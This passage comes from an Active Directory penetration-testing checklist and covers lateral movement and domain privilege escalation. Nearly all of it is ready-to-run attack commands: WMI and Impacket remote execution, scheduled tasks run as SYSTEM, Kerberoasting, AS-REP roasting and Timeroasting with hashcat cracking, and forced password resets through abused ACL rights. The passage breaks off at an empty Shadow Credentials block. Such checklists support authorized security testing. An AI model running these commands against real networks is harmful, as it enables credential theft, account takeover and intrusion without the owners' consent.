   ```bash
  Invoke-WmiMethod -Class Win32_Process -Name Create -ArgumentList "cmd.exe /c whoami > C:\temp\wmi.txt" -ComputerName target
  ```
- [ ] Remote execution via SMB
  ```bash
  smbexec.py domain/user:password@target
  ```
- [ ] Scheduled Task abuse
  ```bash
  # Impacket
  atexec.py domain/user:password@target "command"
  
  # PowerShell
  $action = New-ScheduledTaskAction -Execute "cmd.exe" -Argument "/c whoami > C:\temp\task.txt"
  $trigger = New-ScheduledTaskTrigger -Once -At (Get-Date).AddSeconds(10)
  Register-ScheduledTask -TaskName "Test" -Action $action -Trigger $trigger -User "System" -RunLevel Highest -Force
  ```

## 8. Domain Privilege Escalation

### Kerberos Attacks
- [ ] Kerberoasting attack
  ```bash
  # Find accounts with SPN
  Get-NetUser -SPN
  
  # Request and extract tickets
  GetUserSPNs.py -request -dc-ip <DC_IP> domain.local/user:password -outputfile kerberoast.txt
  
  # Crack hashes
  hashcat -m 13100 kerberoast.txt wordlist.txt
  ```
- [ ] AS-REP Roasting
  ```bash
  # Find accounts with pre-auth disabled
  Get-ADUser -Filter 'userAccountControl -band 4194304' -Properties userAccountControl
  
  # Request and extract tickets
  GetNPUsers.py domain.local/ -usersfile users.txt -dc-ip <DC_IP> -format hashcat -outputfile asrep.txt
  
  # Crack hashes
  hashcat -m 18200 asrep.txt wordlist.txt
  ```
- [ ] Timeroasting/Computer Spraying
  ```bash
  python3 timeroast.py <DC_IP> -o ntp_hashes
  hashcat -a 0 -m 31300 ntp_hashes ./wordlists/rockyou.txt
  ```

### ACL/DACL Exploitation
- [ ] Identify vulnerable ACLs with BloodHound
- [ ] Exploit ForceChangePassword right
  ```powershell
  # PowerView
  Set-DomainUserPassword -Identity TargetUser -Verbose
  
  # rpcclient
  rpcclient -U user <target>
  setuserinfo2 targetuser 23 'NewPass123!'
  ```
- [ ] Shadow Credentials attack
  ```bash
  ```
